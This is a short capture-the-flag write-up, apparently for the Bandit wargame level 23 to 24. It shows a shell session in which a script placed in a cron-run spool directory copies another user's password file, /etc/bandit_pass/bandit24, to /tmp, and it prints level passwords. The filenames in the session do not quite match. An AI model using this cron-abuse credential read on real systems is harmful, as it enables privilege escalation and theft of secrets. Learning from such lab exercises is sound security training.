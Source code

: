 ## Objetivo
A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

## Datos de acceso
contraseña: QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G

## Solucion
```
bandit23@bandit:~$ mkdir /tmp/lycg01
bandit23@bandit:~$ cd /tmp/lycg01
bandit23@bandit:/tmp/lycg01$ nano ikegscript.sh
Unable to create directory /home/bandit23/.local/share/nano/: No such file or directory
It is required for saving/loading search history or cursor positions.

bandit23@bandit:/tmp/lycg01$ cat lycgscript.sh
cat /etc/bandit_pass/bandit24 > /tmp/lycg01/password
bandit23@bandit:/tmp/lycg01$ chmod 777 lycgscript.sh
bandit23@bandit:/tmp/lycg01$ touch password
bandit23@bandit:/tmp/lycg01$ chmod 666 password
bandit23@bandit:/tmp/lycg01$ ls -la
total 112
drwxrwxr-x    2 bandit23 bandit23   4096 Feb 28 18:33 .
drwxrwx-wt 3010 root     root     106496 Feb 28 18:33 ..
-rwxrwxrwx    1 bandit23 bandit23     53 Feb 28 18:31 lycgscript.sh
-rw-rw-rw-    1 bandit23 bandit23      0 Feb 28 18:33 password
bandit23@bandit:/tmp/lycg01$ cp lycgscript.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp/lycg01$ ls -la
total 116
drwxrwxr-x    2 bandit23 bandit23   4096 Feb 28 18:33 .
drwxrwx-wt 3010 root     root     106496 Feb 28 18:36 ..
-rwxrwxrwx    1 bandit23 bandit23     53 Feb 28 18:31 lycgscript.sh
-rw-rw-rw-    1 bandit23 bandit23     33 Feb 28 18:36 password
bandit23@bandit:/tmp/lycg01$ cat password
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
```
## Notas adicionales

## Referencias